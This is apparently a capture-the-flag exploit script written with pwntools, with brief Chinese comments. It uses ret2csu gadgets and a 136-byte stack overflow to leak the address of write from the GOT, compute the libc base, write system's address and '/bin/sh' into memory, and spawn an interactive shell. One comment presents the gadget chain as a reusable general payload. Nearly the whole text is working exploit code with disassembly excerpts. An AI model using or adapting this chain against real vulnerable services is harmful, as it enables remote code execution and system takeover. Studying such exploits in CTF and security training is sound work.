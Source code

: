 ```plain
    payload += p64(r13) + p64(r14) + p64(r15)
    #三个参数的寄存器
    payload += p64(second_csu)
    #gadgets2 的地址
    payload += 'a' * 56
    #pop 出的 padding
    payload += p64(last)
    #函数最后的返回地址
    return payload
#做熟练了可以直接用这个通用 Payload

write_got=elf.got['write']
leak('write_got',write_got)
main=elf.symbols['main']
leak('main',main)
read=elf.got['read']
leak('read',read)



"""
.text:00000000004012AA                 pop     rbx
.text:00000000004012AB                 pop     rbp
.text:00000000004012AC                 pop     r12
.text:00000000004012AE                 pop     r13
.text:00000000004012B0                 pop     r14
.text:00000000004012B2                 pop     r15
.text:00000000004012B4                 retn
"""
pl=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(1)+p64(write_got)+p64(0x8)+p64(0x404018)+p64(0x401290)+p64(1)*7+p64(main)
p.sendlineafter('Hello, World\n',pl)

write=uu64(r(6))
leak('write',write)

libcbase=write-libc.symbols['write']
leak('libcbase',libcbase)

"""
.text:0000000000401290                 mov     rdx, r14
.text:0000000000401293                 mov     rsi, r13
.text:0000000000401296                 mov     edi, r12d
.text:0000000000401299                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040129D                 add     rbx, 1
.text:00000000004012A1                 cmp     rbp, rbx
.text:00000000004012A4                 jnz     short loc_401290
"""

pl2=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(0)+p64(0x404060)+p64(0x20)+p64(read)+p64(0x401290)+p64(1)*7+p64(main)
p.sendline(pl2)
p.send(p64(libcbase+libc.symbols['system'])+b'/bin/sh\00')

pl3=cyclic(136)+p64(0x4012AA)+p64(0)+p64(1)+p64(0x404068)+p64(0)+p64(0)+p64(0x404060)+p64(0x401290)
p.sendlineafter('Hello, World\n',pl3)
p.interactive()
```
